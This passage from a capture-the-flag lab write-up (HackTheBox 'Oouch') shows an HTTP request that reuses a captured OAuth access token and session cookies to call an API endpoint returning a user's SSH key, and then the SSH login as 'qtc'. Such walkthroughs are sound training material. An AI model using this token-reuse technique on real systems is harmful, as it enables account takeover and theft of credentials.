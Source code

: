 ### API SSH Keys

Now we can test the `/api/get_user` endpoint with our new access\_token and the seessionid.

```http
GET /api/get_ssh?access_token=O0Qwa2XObArpMZDhk3obUT4DLOgvH7 HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=aWzHarmWI5F3jiPsMIUB7tlpiFp0RMRAGmsWcW30NkvqWZaSiaYfT8VzwTGQ3vYc; sessionid=u46fo2dio2uyqksl1t3by906cbrcz4te
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Now that we have access to this, we need to find the SSH key. After testing out a few endpoints, I found that `get_ssh` was the right one.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Then we can just SSH in as `qtc`.&#x20;
